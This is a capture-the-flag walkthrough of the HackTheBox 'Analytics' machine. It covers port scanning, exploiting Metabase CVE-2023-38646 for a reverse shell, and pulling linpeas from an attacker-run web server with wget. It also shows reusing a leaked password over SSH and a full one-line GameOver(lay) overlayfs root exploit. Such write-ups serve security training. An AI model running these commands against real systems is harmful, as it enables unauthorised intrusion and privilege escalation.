 # Machine Overview

**Analytics** was an easy-rated Linux machine, involving the exploitation of **CVE-2023-38646** for initial access and **CVE-202332629** for Privilege Escalation.

<img  alt="Pasted image 20240322120647" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/adce0329-b6e1-49bc-acd6-68eb1d6e2275">

# User
## Scanning with nmap
  
First of all, we will go with Nmap to scan the whole network and check for services running on the network. To scan the entire network and find all the open ports, I use **-p-** to scan all **65535** ports with **--min-rate 10000** to scan the network faster using **nmap**. After scanning, I retrieve a list of open ports on the network and extract only the open ports using various terminal tools like **cut**, **tr**, etc.

```bash
$ nmap -p- -Pn --min-rate 10000 10.10.11.233 -oN ini.txt && cat ini.txt | cut  -d ' ' -f1 | tr -d '/tcp' | tr '\n' ','
# Open ports
22,80
```

Now Let's run the depth scan on these specific ports using 

```bash
$ nmap -p22,80 -sC -sV -A -T4 -Pn 10.10.11.233 -oN scan.txt
```

- **-sC** is to run all the default scripts
- **-sV** for service and version detection
- **-A** to check all default things
- **-T4** for aggressive scan
- **-oN** to write the result into a specified file
- **-Pn** to Treat all hosts as online

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Information Gathering

Through Nmap, we discovered only two ports are open. On Port **22**, SSH version **8.9p1** is running on an Ubuntu system, and on port **80**, HTTP **Nginx 1.18.0** is running. Both versions of SSH and Nginx are not vulnerable, so I decided to directly visit the webpage. Let's add `analytical.htb` in our DNS file.

```bash
$ echo "10.10.11.233   analytical.htb" | sudo tee -a /etc/hosts
```

### 80 HTTP

The webpage is running the Data Analysis website, which deals in Data processing and helping customers to find recent trends and products, with different pages linked on the **navbar**.

<img  alt="Pasted image 20240321191106" src="https://github.com/iammR0OT/myaseen/assets/74102381/960bbbd9-408c-466d-a138-fccbb00742aa">

The Login button on navbar is retdirecting us to subdomain called `data.analytical.htb`. 

<img  alt="Pasted image 20240321191211" src="https://github.com/iammR0OT/myaseen/assets/74102381/38cb8468-eece-4e17-a3e9-e93bc94ee304">

Let's Add this to our local DNS file, so that we can resolve it.

```bash
$ cat /etc/hosts | grep analytical
10.10.11.233   analytical.htb data.analytical.htb
```

#### Initial Access

On `data.analytical.htb`, Metabase is running.
Metabase is **an open source business intelligence tool that lets you create charts and dashboards using data from a variety of databases and data sources**. You don't need to know SQL to create visualizations, but Metabase supports SQL for advanced customization.

<img  alt="Pasted image 20240321191714" src="https://github.com/iammR0OT/myaseen/assets/74102381/9175639c-936b-43f5-adef-4cf495ac45bf">

With a Quick google Search i was able to find a RCE exploit of metabase [CVE-2023-38646](https://github.com/m3m0o/metabase-pre-auth-rce-poc)

<img  alt="Pasted image 20240321191841" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/07497b78-0735-4057-b5a6-e922a9c0ca36">

To make this Exploit work, we needs the **target URL**, the **setup token** and a **command** that will be executed. The setup token can be obtained through the `/api/session/properties` endpoint. Copy the value of the `setup-token` key. 

<img  alt="Pasted image 20240321192204" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/916047a0-2bd7-49ad-8567-d1572a4a2eac">

Now we have all necessary things for exploit to work. Let's Exploit it...
- URL: `http://data.analytical.htb/`
- Setup-Token: `249fa03d-fd94-4d5b-b94f-b4ebf3df681f`
- Command: rev-shell

<img  alt="Pasted image 20240322105945" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/76f340f4-d143-49a2-ab81-62d1da352916">

We got a shell within no time. Let's run Linpease to check if we able to find any useful things to elevate our privileges.
**LinPEAS** is a script that search for possible paths to escalate privileges on Linux/Unix*/MacOS hosts.
i'll be using python server to transfer linpease from my attacker machine to victime machine, for this you first need to start a python server on your local machine in a directory where linpeas is present.

```bash
$ python3 -m http.server 80
```

After that, use **wget** to transfer it to victim machine and using chmod, give it executable permissions.

```bash
$ wget <IP>/linpeas.sh
$ chmod +x linpeas.sh
```

<img  alt="Pasted image 20240322113146" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/4ef40d6e-2830-4cc7-bf34-dc2f66d2605d">

After running Linpeas, in Environments section, we were able to retrieve the password of a new user called **metalytics** 
- metalytics
- An4lytics_ds20223#

<img  alt="Pasted image 20240322114718" src="https://github.com/iammR0OT/myaseen/assets/74102381/357decf1-6a38-4d4d-a489-2e4e75c08e8e">

Let's SSH to machine using these Credentials and retrieve our user flag.

```bash
$ sshpass -p 'An4lytics_ds20223#' ssh metalytics@10.10.11.233
```

<img  alt="Pasted image 20240322114914" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/3278a655-71af-497f-b4db-7b9d1f918147">

# Privilege Escalation

Let's move toward privilege Escalation part. The very first thing i usually do is to check the kernel version running on machine, because if the version is outdated, then it will be low hanging fruit for us to gain root access on machine.
To check the kernel version, we can use multiple commands like

```bash
$ uname -a
$ cat /proc/version
$ lscpu
```

Linux **Kernel 6.2.0** is running on machine

<img  alt="Pasted image 20240322115359" src="https://github.com/iammR0OT/iammR0OT.github.io/assets/74102381/14ed00e2-57f1-4247-924c-9a9c0613d82d">

With a quick google search i was able to find kernel exploit for privilege Escalation, [CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) called **GameOver(lay)** Ubuntu Privilege Escalation
Local privilege escalation vulnerability in Ubuntu Kernels overlayfs **ovl_copy_up_meta_inode_data** skip permission checks when calling ovl_do_setxattr on Ubuntu kernels.


<img  alt="Pasted image 20240322115605" src="https://github.com/iammR0OT/myaseen/assets/74102381/4bd8a86f-6ca2-446b-8230-ee9eb244bfaa">

The payload will be.

```bash
$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
```

<img  alt="Pasted image 20240322120025" src="https://github.com/iammR0OT/myaseen/assets/74102381/bd0465d5-fb48-46c6-9dd9-ffd2be2be58b">


# Flags

User: edd9e7f9b0b992....7958419d05ccb 

Root: b9b4c98f4512a4....c0fad7fd933a6b

# Happy Hacking ❤
